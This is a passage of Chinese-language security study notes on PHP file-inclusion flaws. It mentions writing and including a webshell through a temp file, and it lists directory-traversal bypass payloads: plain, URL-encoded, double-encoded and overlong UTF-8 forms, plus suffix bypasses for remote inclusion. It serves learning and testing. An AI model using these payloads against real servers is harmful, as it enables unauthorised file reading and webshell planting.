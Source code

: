         * 然后包含/tmp/hello.php文件，就可以看到phpinfo界面了。改成写入webshell的php代码就可以写入webshell，然后再包含这个webshell了。
    


### 绕过姿势

1. 指定前缀  

    `/var/www/html/'.$file`;  也就是判定这个目录必须存在file文件时才包含。  但可以用../来绕过

    `a.php../b.php就是include当前目录下的b.php文件，a.php被当作了一个文件夹../b.php之后就是当前目录`

    * 服务器端常常会对于../等做一些过滤，可以用一些编码来进行绕过。
        输入

        * 利用url编码：

            ```
            ../ :
                - %2e%2e%2f
                - ..%2f
                - %2e%2e/  
            ..\	:
                - %2e%2e%5c
                - ..%5c
                - %2e%2e\
            ```

        * 二次编码

            ```
            ../ :
                - %252e%252e%252f
            ..\	:
                - %252e%252e%255c
            
            ```

        * 容器/服务器的编码方式

            原理可见[Why does Directory traversal attack %C0%AF work?(要翻*)](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)

            ```
            ../
                - ..%c0%af
                - %c0%ae%c0%ae/   
               		注：1. java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
                        2. Apache Tomcat Directory Traversal
            ..\
                - ..%c1%9c
            
            ```

            

2. 绕过指定后缀：`$file.'/test/test.php';`

    * 在远程文件包含漏洞（RFI）中，可以利用query或fragment来绕过后缀限制。  
